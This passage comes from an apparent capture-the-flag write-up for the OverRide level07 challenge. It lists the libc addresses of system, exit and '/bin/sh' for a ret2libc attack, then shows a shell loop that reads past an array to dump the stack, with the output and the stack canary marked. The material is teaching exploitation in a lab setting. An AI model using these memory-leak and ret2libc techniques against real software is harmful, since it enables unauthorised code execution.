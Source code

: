 So we indeed have the exact same addresses as we had with this method used on this machine already:
- 0xf7e6aed0 for system
- 0xf7e5eb70 for exit
- 0xf7e2c000 + 15d7ec = f7f897ec for "/bin/sh"

We now need to read the memory or at least find the offset to know where to place our exploit. We are going to print a big memory dump right below, this is a command that read the stack by exploiting the program and printing what is in the 101st element of the tab that only has a size of 100, so we can read the stack. We also read what's in the tab itself, but it is just 0 from 0 to 100 (unless with store a value but it's irrelevent to exploit this program yet):

_To explain what this command does quickly, it iterates from 0 to 199 "for i in {0..199};", it then store into num for each iteration a number. This number is the result of printing read, the index and quit "do num=$(echo -e "read\n$i\nquit"" Into a pipe that executes level07 " | ./level07" and that also redirect it's result to another pipe with awk that only takes the lines containing Number at since it's the only line containing interesting informations " | awk '/Number at/ {print $NF}')" it prints it using $NF in order to take the last word and only the last word of the line which is the value stored at this index. So now we have the number at each index of the memory but it's in decimal so we do a little more. We printf a Number at data[%d] with %d being the current iteration, so which memory space (index) we are analysing and adding 0x%x\n to print in hexadecimal $num, that stored the number in the memory space "printf "Number at data[%d] is 0x%x\n" "$i" "$num"" This way we get actual addresses/stack elements that we can work with instead of decimals that doesn't make any sense. Since the number stored are unsigned int we need a temp store for num, that's why we decompose command in two lines._

```sh
level07@OverRide:~$ for i in {0..199}; do num=$(echo -e "read\n$i\nquit" | ./level07 | awk '/Number at/ {print $NF}'); printf "Number at data[%d] is 0x%x\n" "$i" "$num"; done
[...]
Number at data[99] is 0x0
Number at data[100] is 0x1
Number at data[101] is 0x64616572 # daer
Number at data[102] is 0x0
Number at data[103] is 0x0
Number at data[104] is 0x0
Number at data[105] is 0x0
Number at data[106] is 0x42c13b00 # stack canary
Number at data[107] is 0xf7feb620
Number at data[108] is 0x0
Number at data[109] is 0x8048a09
Number at data[110] is 0xf7fceff4
Number at data[111] is 0x0
Number at data[112] is 0x0
Number at data[113] is 0x0
Number at data[114] is 0xf7e45513
Number at data[115] is 0x1
Number at data[116] is 0xffffd794
Number at data[117] is 0xffffd79c
Number at data[118] is 0xf7fd3000
Number at data[119] is 0x0
Number at data[120] is 0xffffd71c
Number at data[121] is 0xffffd79c
Number at data[122] is 0x0
Number at data[123] is 0x80482b8
Number at data[124] is 0xf7fceff4
Number at data[125] is 0x0
Number at data[126] is 0x0
Number at data[127] is 0x0
Number at data[128] is 0x561cad7a
Number at data[129] is 0x8d2cd7c8
Number at data[130] is 0x0
[...]
```
